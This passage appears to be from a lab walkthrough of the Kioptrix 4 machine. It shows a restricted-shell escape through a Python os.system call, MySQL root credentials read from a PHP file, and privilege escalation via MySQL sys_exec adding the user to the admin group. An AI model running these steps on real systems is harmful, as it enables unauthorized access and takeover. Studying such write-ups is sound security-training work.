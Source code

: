 <img src="../img/Pasted image 20240625185008.png" alt="Example Image" width="1080"/>
We got a shell , but `whoami` not working on that shell , `?` to see what all are command can be executable

```
?
cd  clear  echo  exit  help  ll  lpath  ls
```

we have `echo` , let execute python code , because it explicitly using a Python interpreter as `evn`

```
echo os.system("/bin/bash")
john@Kioptrix4:~$

cd /var/www
ls
checklogin.php  database.sql  images  index.php  john  login_success.php  logout.php  member.php  robert
cat checklogin.php

# We got a credential for MySQL DB

$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name

john@Kioptrix4:/var/www$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 37
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select sys_exec('usermod -a -G admin john');
```

